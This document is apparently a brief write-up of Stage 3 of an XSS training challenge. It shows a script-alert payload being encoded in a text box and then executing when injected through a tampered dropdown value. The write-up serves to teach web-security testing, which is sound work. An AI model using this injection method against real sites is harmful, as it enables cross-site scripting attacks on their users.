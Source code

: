# **XSS Challenges Stage 3**

![](https://i.imgur.com/G7nARMz.png)

```
<hr class=red>We couldn't find any places called <b>"123"</b> in <b>Japan</b>.<hr class=red>
```

Is that the same to Stage 1?

![](https://i.imgur.com/CXgUxrV.png)

```
<hr class=red>We couldn't find any places called <b>"&lt;script&gt;alert(document.domain);&lt;/script&gt;"</b> in <b>Japan</b>.<hr class=red>
```

Well, Of course not.

How about input box?

```
Search a place: <input size="30" type="text" name="p1">
```

![](https://i.imgur.com/TS0TVTb.png)

Cuz to `type = "text"` in ```Search a place: <input size="30" type="text" name="p1">```.

All the Symbols get HTML coded.
```
<b>"&gt;&lt;script&gt;alert(document.domain);&lt;/script"</b>
```

Failed.

The last one, let's try to modify the dropdowns.

![](https://i.imgur.com/7sBVgyS.png)

Change `Japan` to `<script>alert(document.domain);</script>`, also remenber to insert something in first input box, otherwise it will not correctly execute.

![](https://i.imgur.com/DaiKsgQ.png)

